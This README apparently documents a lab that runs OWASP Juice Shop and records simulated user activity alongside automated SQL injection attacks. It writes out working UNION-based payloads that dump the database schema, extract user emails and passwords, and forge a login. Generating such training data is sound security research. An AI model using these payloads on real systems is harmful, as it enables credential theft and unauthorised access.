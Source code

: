 # Juice shop 

## Overview:
[OWASP Web shop application](https://owasp.org/www-project-juice-shop/) with multiple vulnerabilities.

## Victim:
Modern web application with multiple vulnerabilities. Runs at port 3000, using provided docker for deployment.

## Normal:
User actions include:
        register -> new account for user
        login    -> login user
        shopping -> put random item in basket
                 -> leave feedback to product
        complain -> upload complaint file
        checkout -> set address, delivery method and payment details
User first registers, then logs in and chooses random between shopping, complaining and completing the checkout.

## Exploit:
Running debian10 with selenium user.
Multiple attacks possible (use as 4th parameter following name):
* SQLInjectionSchema
* SQLInjectionCred
* SQLInjectionUser

### SQL-Injection - SQL Schema
Run malicious query at /rest/products/search:

        qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--

### SQL-Injection - Credentials
Run malicious query at /rest/products/search:

        qwert')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users--

### SQL-Injection - Non Existing User Login
Run malicious query as email while login:

        ' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--

## cli interface:

    sudo python3.7 main.py a b c d
    
    a: boolean (0/1) run automated normal behavior
    b: integer recording time
       1-n: recording time in seconds
        -1: flag to run auto stop of recording after end of exploit
    c: boolean (0/1) run automated exploit
    d: attack type (SQLInjectionSchema, SQLInjectionCred, SQLInjectionUser)